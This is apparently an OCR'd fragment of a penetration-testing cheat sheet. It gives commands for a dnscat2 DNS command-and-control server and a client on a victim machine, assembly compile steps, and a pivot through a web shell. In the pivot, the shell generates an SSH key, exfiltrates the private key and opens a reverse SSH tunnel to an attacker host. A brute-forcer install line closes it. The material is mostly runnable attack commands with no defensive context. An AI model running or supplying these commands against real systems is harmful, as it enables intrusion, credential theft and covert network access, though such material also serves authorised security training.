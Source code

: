 # server (attacker)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059

# client (victum)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host <dnscat server_ip>
Compile Assemble code
nasm -f elf32 simple32.asm -o simple32.o
ld -m elf_i386 simple32.o simple32

nasm -f elf64 simple.asm -o simple.o
ld simple.o -o simple
Pivoting to Internal Network Via Non Interactive Shell
# generate ssh key with shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"

# add tempuser at attacker ps
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh

# create reverse ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
Patator is a multi-purpose brute-forcer
# git clone https://github.com/lanjelot/patator.git /usr/share/patator
